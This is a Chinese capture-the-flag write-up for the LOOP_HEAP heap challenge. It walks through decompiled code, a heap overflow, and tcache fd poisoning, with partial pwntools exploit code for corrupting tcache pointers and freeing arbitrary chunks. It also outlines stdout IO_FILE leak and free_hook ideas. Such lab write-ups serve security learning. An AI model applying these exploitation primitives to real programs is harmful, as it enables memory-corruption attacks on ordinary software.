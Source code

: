 # LOOP_HEAP

连续分配和释放chunk，可以写入超界数据，保护全开。

![KQxMxO](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/KQxMxO.png)

**审计**

第一次输入分配size大小的chunk，第二次输入写入数据的长度size（可以超过chunk大小），第三次输入数据data。程序会不停循环，libc版本是2.27，所以包含tcachebins。

漏洞是在写chunk的时候能够堆溢出，覆盖下一个chunk。

特殊的是，当输入的size值为1234时，使我们能够修改buf指针。(不确定)

```c
  size_4 = 1;
  v8 = 20;
  sub_A3A();
  while ( 1 )
  {
    v3 = v8--;
    if ( v3 <= 0 )
      break;
    printf("malloc size: ");
    size = sub_AC9();
    if ( size == 1234 && size_4 ) //是我们能够修改buf指针
    {
      size_4 = 0;
      read(0, &buf, 8uLL);
      *buf = 0LL;
      size = *buf;
    }
    if ( size > 0x80 )
      exit(1);
    buf = malloc(size);
    if ( !buf )
      exit(1);
    if ( ::buf )
      free(::buf);
    ::buf = buf;
    printf("read size: ");
    sizea = sub_AC9();
    if ( sizea > 0x80 )
      exit(1);
    printf("data: ");
    if ( read(0, ::buf, sizea) <= 0 )
      exit(1);
  }
  return 0LL;
}
```

Demo

验证代码能够修改tcachebins指向0x41414141

![78xN00](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/78xN00.png)

```python
r  = lambda data    :p.recv(data)
ru = lambda data    :p.recvuntil(data)
s  = lambda data    :p.send(data)
sl = lambda data    :p.sendline(data)

def mrd(size1,size2,data):
    ru("malloc size: ")
    s(str(size1))
    ru("read size: ")
    s(str(size2))
    ru("data:")
    s(data)

mrd(0x10,0x10,"A"*0x10)#malloc chunk_a
mrd(0x20,0x20,"B"*0x10)#malloc chunk_b && free chunk_a
mrd(0x10,0x30,"C"*0x18+p64(0x21)+p64(0x41414141))#malloc chunk_c && free_chunk_b

#mrd(0x20,0x30,"123")
#mrd(0x20,0x30,"123") #malloc_chunk in 0x41414141
```

这道题的malloc_hook和free_hook居然在bss段，第一次见到这样的题目。。。这样的话只要能泄露程序地址就能写malloc_hook了，但是这并没有用，one_gadget地址还是不确定，如果能覆盖free_hook为system那还有可能。

![4JxJag](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/4JxJag.png)

考虑思路1：通过patril write，修改tcache chunk的fd，来凑stdout的位置，然后覆盖IO_FILE来泄露地址。思路大概和这篇[文章](https://bbs.pediy.com/thread-248053-1.htm)类似

但是因为申请限制，只能申请0x80以下的chunk，所以使用不了unsortbin

仔细看看tchche机制，发现只要free7个chunk就能将tcache填满。不过实验之后，发现得同一个链上free7个，但是题目限制，导致无法实现。

![tduZDZ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/tduZDZ.png)

再审题，感觉这个 **if** 可能是个关键,buf和::buf并不是同一块内存地址。buf在栈中，::buf则是在程序的bss段中。通过输入size=1234能够修改buf的低地址，但是**仅一次**。

```c
    if ( size == 1234 && size_4 )
    {
      size_4 = 0;
      read(0, &buf, 8uLL);  #修改buf的低地址
      *buf = 0LL;
      size = *buf;
    }
```

修改buf的值，可以用来释放任意堆块。

```
mrd(0x10,0x10,"A"*0x10) #malloc_chunk

ru("malloc size: ")
s(str(1234))
s("\x80")
ru("read size: ")
s(str(0x10))
ru("data:")
s("aaaa")
```



如何产生一个unsortbin是一件麻烦的事情，可以尝试伪造一个0x500的堆，释放就直接进入unsortbin中了。



# Appendix

内存中读取stdout

![image-20200505225757512](/Users/migraine/Library/Application Support/typora-user-images/image-20200505225757512.png)